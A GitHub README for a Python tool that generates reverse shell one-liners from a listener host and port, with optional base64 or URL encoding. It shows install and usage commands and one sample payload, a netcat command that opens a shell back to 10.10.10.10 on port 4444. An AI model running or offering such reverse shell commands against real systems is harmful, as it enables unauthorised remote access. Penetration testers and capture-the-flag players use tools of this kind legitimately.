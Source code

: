 ## Requirements
Pyperclip
```bash
  pip3 install pyperclip
```
Psutil
```bash
  pip3 install psutil
```
## Quick usage

#### Clone the repository (or just copy-paste)
```bash
  sudo git clone https://github.com/Gurguii/Reverse-shell-Generator
```  
```bash
    cd Reverse-shell-Generator
```
#### Run the script
```bash
    python3 reverse.py -s <revshell_type> -lh <lhost> -lp* <lport> -enc* <encode_type> -list* <shell_type> --listall*
```  
**Note:** default LPORT is 4444, params with * are optional.    
**Available encodes**: base64(also accepts b64 as input), url  
### Useful info  
**LHOST CAN BE AN IP OR AN INTERFACE OR LOCALHOST(E.g. tun0 or 10.10.10.10)**
- Get a list of all available reverse shells 
```bash
    python3 reverse.py -listall
```  
- Get a list of reverse shells of a given type with the name
```bash
    python3 reverse.py -list bash
``` 
- Straight craft an specific rshell by name  
```bash
    python3 reverse.py -s bash=<name> -lh <lhost>
```
Output:  
 ![image](https://user-images.githubusercontent.com/101645735/178015002-a7ec7467-8b62-4c14-9648-e0c0bf90e019.png)

- Choose a specific reverse shell by name
```bash
    python3 reverse.py -s nc=exe -lh 10.10.10.10
```
This would return => **nc.exe -e sh 10.10.10.10 4444**

## Test 
- Created reverse shell:
```bashi
  hack@hack:~$ python3 reverse.py -s bash=gurgui -lh localhost -lp 9001
```
![If you see this text you are having trouble loading the gif :(](https://media.giphy.com/media/woqDTmU2pL2tc4eJ5c/giphy.gif)  

As you might have noticed, I wrote bash=gurgui, that's because I changed the name of that exact bash rshell to gurgui in the script.  
Having the script in ur path with custom names for shells you usually go for might make this super fast.
